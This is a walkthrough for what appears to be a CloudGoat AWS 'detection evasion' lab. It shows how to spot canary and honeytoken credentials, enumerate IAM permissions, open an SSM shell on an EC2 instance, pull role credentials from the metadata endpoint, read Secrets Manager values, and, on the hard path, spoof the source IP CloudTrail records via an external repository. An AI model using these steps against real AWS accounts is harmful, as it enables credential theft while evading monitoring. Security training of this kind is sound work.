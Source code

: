## Easy Path

1. Iterate through the starting credentials to identify the honeytokens. There are a few ways to do this. Pacu has a
   module for this process, but we reccomend doing it manually in order to understand the process here.

    ```bash
    # There are services which do not log to CloudTrail. Honeytokens almost never grant permissions to ANY services, let alone these services which do not log to CloudTrail. Thus ,the call below will fail for a honeytoken, but will reveal the ARN of the principal associated with the credentials. This information is usually sufficient to infer if the principal is only being used for honeytokens.
    aws --profile cg1 --region us-east-1 sdb list-domains
    # The above command reveals that user1 is "user/canarytokens.com@@kz9r8ouqnhve4zs1yi4bzspzz". These tokens are generated by a third party honeytoken service "canarytokens.com" (as you may have guessed). 
   
    aws --profile cg2 --region us-east-1 sdb list-domains
    # The above command reveals that user2 is "user/SpaceCrab/l_salander". This indicates that the honeytoken was generated by SpaceCrab (a tool which appears to now be outdated).
   
    aws --profile cg3 --region us-east-1 sdb list-domains
    # The above command reveals that user3 is "user/cd1fceca-e751-4c1b-83e4-78d309063830". Although not nearly as suspicious as the first two users, this UUID format indicated that the user is being automatically generated. This UUID format is also used by the SpaceSiren honeytoken tool.   
   
    aws --profile cg4 --region us-east-1 sdb list-domains
    # The above command reveals that user4 has permissions to the sdb service, and is therefore likely a legitimate user.
    ```

2. Now that you have identified which pair of credentials are honeytokens and which are likely legitimate, you can
   perform some enumeration to determine who you are, what group you are a part of, what permissions are assigned to
   that group, what EC2 instances exist, and which one to target in the next step.

    ```bash
    # The command below will reveal the ARN of your current principal. 
    aws --profile cg4 sts get-caller-identity
   
    # The command below will list the groups to which your user belongs.
    aws --profile cg4 iam list-groups-for-user --user-name r_waterhouse
   
    # The command below will list the policies attached to your group.
    aws --profile cg4 iam list-group-policies --group-name cg-developers
   
    # The command below will list out the developer policy in detail. You will see a statement focusing on SSM which includes "ssm:StartSession". This will be used later to get a shell on an EC2 instance.
    aws --profile cg4 iam get-group-policy --group-name cg-developers --policy-name developer_policy
   
    # The command below will reveal that the AWS managed policy "ReadOnlyAccess" is attached to the cg-developers group.
    aws --profile cg4 iam list-attached-group-policies --group-name cg-developers
   
    # The command below will list all EC2 instances, revealing the instance that we will target in this section "easy_path-cg-detection-evasion"
    aws --profile cg4 --region us-east-1 ec2 describe-instances
    ```

3. Use SSM to get a shell on the "easy_path" instance.

For this to work you'll first need to ensure you have the
[ssm plugin](https://docs.aws.amazon.com/systems-manager/latest/userguide/session-manager-working-with-install-plugin.html)
installed. If it is not installed you may receive a permission error about terminating sessions.

    ```bash
    # The command below will result in a shell on the EC2 instance of your choice. 
    aws --profile cg4 --region us-east-1  ssm start-session --target [INSTANCE_ID]
    ```

5. Determine if there is a role associated with this EC2 instance.

    ```bash
    # The command below will reach out to the IMDS endpoint, and will return the name of an instance profile.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials
   
    # The command below will reach out to the IMDS endpoint, and will return credentials for the role associated with this instance.
    curl http://169.254.169.254/latest/meta-data/iam/security-credentials/[INSTANCE_PROFILE]
    ```


5. Install the AWS CLI, list all secrets, and read the contents of the associated secrets. This step is another
   opportunity to trigger alerts. If you use the credentials associated with this instance from an unknown IP, an alert
   will be triggered. This is why we install the CLI on the EC2 instance and take actions from there.

    ```bash
    # The command below will confirm that the AWS CLI is not installed.
    aws --version
   
    # The command below will install the AWS CLI.
    sudo yum install awscli -y
   
    # The command below will confirm that the AWS CLI is installed.
    aws --version
   
    # The command below will list all secrets in secrets manager. 
    aws --region us-east-1  secretsmanager list-secrets
   
    # The command below will read out the value for the secret associated with this path. 
    aws --region us-east-1  secretsmanager get-secret-value --secret-id [SECRET_ARN]
    ```

## Hard Path

Steps 1-4 are almost identical for the "hard path" of this scenario. The only difference is, on step 3, you will target
the "hard_path-cg-detection-evasion" instance. In this light, we will start the steps for the "hard path" on step 5,
after you have retrieved the credentials from IMDS.

5. Check if the AWS CLI is installed. Realize you have no internet access. Unlike the "easy path", you cannot take
   actions with the CLI from this instance. Yet, like the "easy path", any event logged in CloudTrail, using credentials
   from this instance and from an IP other than that of this EC2 instance, will trigger alerts.

    ```bash
    # The command below will confirm that the AWS CLI is installed. However, attempts to use it will fail. This is because the instance has no access to the public internet. 
    aws --version
   
    # You can run any aws command from this instance to confirm that it will not work.
    aws sts get-caller-identity
    ```

6. There is a way to spoof arbitrary IP addresses in CloudTrail, and you can read about it
   in [this blog post](https://www.hunters.security/en/blog/hunters-research-detecting-obfuscated-attacker-ip-in-aws). Instead of
   walking through this entire technique in duplicate here, we have created a public github repo with terraform code
   that will deploy the necessary resources to perform the bypass.

    ```bash
    # Clone the repo that contains the solution.
    git clone https://github.com/RhinoSecurityLabs/cloud_goat_detection_evasion_hard_path_solution.git
   
    # Move into the repo
    cd cloud_goat_detection_evasion_hard_path_solution
   
    # Follow the README.md in this folder
    cat README.md
    ```
7. Once you have deployed the terraform resources mentioned above, you should have a shell on the ec2 instance that was
   created. Run the following on that instance.

    ```bash
    # The command below will list all secrets in secretsmanager.
    aws --region us-east-1 secretsmanager list-secrets
   
    # The command below will
    aws --region us-east-1 secretsmanager get-secret-value --secret-id [ARN_OF_TARGET_SECRET]
    ```

At this point you have finished the scenario. 